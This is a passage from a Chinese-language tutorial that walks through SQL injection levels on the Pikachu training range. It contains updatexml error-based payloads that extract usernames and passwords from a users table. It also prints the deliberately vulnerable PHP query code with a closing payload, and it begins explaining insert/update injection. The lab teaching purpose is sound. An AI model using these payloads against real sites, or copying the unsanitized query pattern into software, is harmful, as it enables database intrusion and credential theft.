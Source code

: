 ![](../../../../../assets/img/Security/RedTeam/Web安全/靶场/pikachu/41.png)

![](../../../../../assets/img/Security/RedTeam/Web安全/靶场/pikachu/42.png)

数据 `a' and updatexml(1,concat(0x7e,(select username from users limit 0,1)),0)#`

![](../../../../../assets/img/Security/RedTeam/Web安全/靶场/pikachu/43.png)

数据 `a' and updatexml(1,concat(0x7e,(select password from users limit 0,1)),0)#`

![](../../../../../assets/img/Security/RedTeam/Web安全/靶场/pikachu/44.png)

### xx型注入

**服务器端核心代码**
```php
if(isset($_GET['submit']) && $_GET['name']!=null){
    //这里没有做任何处理,直接拼到select里面去了
    $name=$_GET['name'];
    //这里的变量是字符型,需要考虑闭合
    $query="select id,email from member where username=('$name')";
    $result=execute($link, $query);
    if(mysqli_num_rows($result)>=1){
        while($data=mysqli_fetch_assoc($result)){
            $id=$data['id'];
            $email=$data['email'];
            $html.="<p class='notice'>your uid:{$id} <br />your email is: {$email}</p>";
        }
    }else{

        $html.="<p class='notice'>您输入的username不存在,请重新输入!</p>";
    }
}
```

**漏洞利用**

参照代码,这里使用字符型且没有使用相似查询,然而这个不重要,关键是构造一个闭合

payload: `' or '1' = '1 #`

### "insert/update"注入

insert 注入,就是前端注册的信息最终会被后台通过 insert 这个操作插入数据库,后台在接受前端的注册数据时没有做防 SQL 注入的处理,导致前端的输入可以直接拼接 SQL 到后端的 insert 相关内容中,导致了 insert 注入.
